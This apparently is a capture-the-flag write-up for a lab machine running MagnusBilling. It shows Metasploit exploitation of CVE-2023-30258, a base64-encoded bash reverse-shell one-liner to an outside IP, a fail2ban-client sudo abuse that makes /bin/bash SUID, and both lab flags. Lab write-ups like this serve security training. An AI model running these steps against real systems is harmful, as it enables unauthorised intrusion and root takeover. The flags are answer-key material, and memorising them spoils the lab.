






## TL;DR

We find vulnerbale `MagnusBilling` system on port 80, and use `metasploit` to get unauthenticated `RCE`.

We get root shell using `sudo` permission on `/usr/bin/fail2ban-client`.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target --open -oN nmap.txt -oX nmap.xml
```



We can see 3 open ports, port `22` for ssh, port `80` for http server, and port `5038` for unknown service.
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 6f:22:5f:18:07:33:a1:f5:85:8d:51:cd:df:6f:f4:84 (ECDSA)
|_  256 58:2c:f2:28:ff:53:79:5c:05:a6:af:80:dc:0e:95:ce (ED25519)
80/tcp   open  tcpwrapped
| http-title:             MagnusBilling        
|_Requested resource was http://billing/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
5038/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add `billing` to our `/etc/hosts`.

### Exploit RCE on MagnusBilling system to get shell as asterisk

When i access the http server, we can see there is `MagnusBilling` system.



I googled, and find there is known exploit that gives unauthenticated `RCE` on vulnerable versions, [https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)

Using metasploit we can achieve this exploit, let's use the module `linux/http/magnusbilling_unauth_rce_cve_2023_30258`.

First, execute `msfconsle`.
Then, we want to choose the module:
```bash
use linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
Next, we need to set arguments, and execute the exploit:
```bash
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS billing
RHOSTS => billing
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RPORT 80
RPORT => 80
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST tun0
LHOST => tun0
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LPORT 1337
LPORT => 1337
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

And we got our reverse shell on port `1337`.



Next, I ran my `penelope` and got the payload to get easier shell.
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzAuNjEvNDQ0NCAwPiYxKSAm|base64 -d|bash
```

We can find the `user.txt` inside `magnus` home dir.



```bash
asterisk@ip-10-82-143-175:/home/magnus$ ls -la
total 76
drwxr-xr-x 15 magnus magnus 4096 Sep  9  2024 .
drwxr-xr-x  5 root   root   4096 Nov 23 05:45 ..
lrwxrwxrwx  1 root   root      9 Mar 27  2024 .bash_history -> /dev/null
-rw-------  1 magnus magnus  220 Mar 27  2024 .bash_logout
-rw-------  1 magnus magnus 3526 Mar 27  2024 .bashrc
drwx------ 10 magnus magnus 4096 Sep  9  2024 .cache
drwx------ 11 magnus magnus 4096 Mar 27  2024 .config
drwx------  3 magnus magnus 4096 Sep  9  2024 .gnupg
drwx------  3 magnus magnus 4096 Mar 27  2024 .local
-rwx------  1 magnus magnus  807 Mar 27  2024 .profile
drwx------  2 magnus magnus 4096 Mar 27  2024 .ssh
drwx------  2 magnus magnus 4096 Mar 27  2024 Desktop
drwx------  2 magnus magnus 4096 Mar 27  2024 Documents
drwx------  2 magnus magnus 4096 Mar 27  2024 Downloads
drwx------  2 magnus magnus 4096 Mar 27  2024 Music
drwx------  2 magnus magnus 4096 Mar 27  2024 Pictures
drwx------  2 magnus magnus 4096 Mar 27  2024 Public
drwx------  2 magnus magnus 4096 Mar 27  2024 Templates
drwx------  2 magnus magnus 4096 Mar 27  2024 Videos
-rw-r--r--  1 magnus magnus   38 Mar 27  2024 user.txt
asterisk@ip-10-82-143-175:/home/magnus$ cat user.txt 
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

### Privilege Escalation to Root

When I checked my `sudo` privileges, I can see we have `/usr/bin/fail2ban-client`, with no password.
```bash
asterisk@ip-10-82-143-175:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on ip-10-82-143-175:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-82-143-175:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

I googled and find [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/)



So, I just followed step by step:
```bash
asterisk@ip-10-82-143-175:/home/magnus$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-82-143-175:/home/magnus$ sudo /usr/bin/fail2ban-client get ast-cli-attck actions
The jail ast-cli-attck has the following actions:
iptables-allports-AST_CLI_Attack
asterisk@ip-10-82-143-175:/home/magnus$ sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
evil
asterisk@ip-10-82-143-175:/home/magnus$ sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-82-143-175:/home/magnus$ sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
1
```

Now, we can check the privileges of `/bin/bash`:
```bash
asterisk@ip-10-82-143-175:/home/magnus$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18  2025 /bin/bash
```

As we can see, it has the `s` bit, now we just need to execute this, and get our root shell:
```bash
/bin/bash -p
```



```bash
bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```
